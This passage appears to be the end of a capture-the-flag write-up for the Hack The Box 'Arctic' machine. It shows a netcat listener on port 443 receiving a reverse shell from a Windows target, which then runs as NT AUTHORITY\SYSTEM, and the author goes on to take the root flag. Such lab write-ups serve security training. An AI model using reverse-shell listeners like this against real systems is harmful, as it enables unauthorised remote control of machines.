
```
root@kali:~/htb/arctic# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49267
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8>whoami & hostname
whoami & hostname
nt authority\system
arctic
```

From here we're able to grab the root.txt flag on the Administrator desktop. Thanks for reading!
